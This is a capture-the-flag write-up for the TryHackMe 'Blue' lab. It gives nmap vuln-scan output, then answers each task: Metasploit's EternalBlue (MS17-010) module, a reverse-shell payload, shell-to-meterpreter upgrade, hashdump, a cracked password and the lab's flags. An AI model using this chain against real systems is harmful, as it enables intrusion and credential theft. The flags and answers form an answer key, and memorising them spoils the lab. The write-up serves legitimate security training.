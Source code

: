 # THM-Blue

3/1/2022 | Yash Mhaskar

------------------

# Nmap 7.91 scan initiated Sun Feb 27 16:45:34 2022 as: nmap -A -T4 -sV --script vuln -oN nmap.txt 10.10.188.114
Nmap scan report for 10.10.188.114
Host is up (0.18s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_sslv2-drown: 
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/27%OT=135%CT=1%CU=42564%PV=Y%DS=5%DC=T%G=Y%TM=621BAB
OS:2E%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=107%TI=I%CI=I%II=I%SS=S%TS=
OS:7)OPS(O1=M506NW8ST11%O2=M506NW8ST11%O3=M506NW8NNT11%O4=M506NW8ST11%O5=M5
OS:06NW8ST11%O6=M506ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
OS:0)ECN(R=Y%DF=Y%T=80%W=2000%O=M506NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=80%CD=Z)

Network Distance: 5 hops
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   28.46 ms  10.17.0.1
2   ... 4
5   175.07 ms 10.10.188.114

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 16:47:42 2022 -- 1 IP address (1 host up) scanned in 128.66 seconds

# Task 1
 1. How many ports are open with a port number under 1000?
 ''' 3 '''

 2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
 ''' ms17-010 '''

# Task 2
 1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
 ''' exploit/windows/smb/ms17_010_eternalblue '''

 2. Show options and set the one required value. What is the name of this value? (All caps for submission)
 ''' RHOSTS '''

 set payload windows/x64/shell/reverse_tcp

# Task 3
 1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
 ''' post/multi/manage/shell_to_meterpreter '''

 2. Select this (use MODULE_PATH). Show options, what option are we required to change?
 ''' SESSION '''

# Task 4
 1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
 ''' Jon '''

 2. Copy this password hash to a file and research how to crack it. What is the cracked password?
 ''' alqfna22 '''

# Task 5
 1.  Flag1? This flag can be found at the system root.
 ''' flag{access_the_machine} '''

 2. Flag2? This flag can be found at the location where passwords are stored within Windows. *Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 
 ''' flag{sam_database_elevated_access} '''
 
 3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
 ''' flag{admin_documents_can_be_valuable} '''

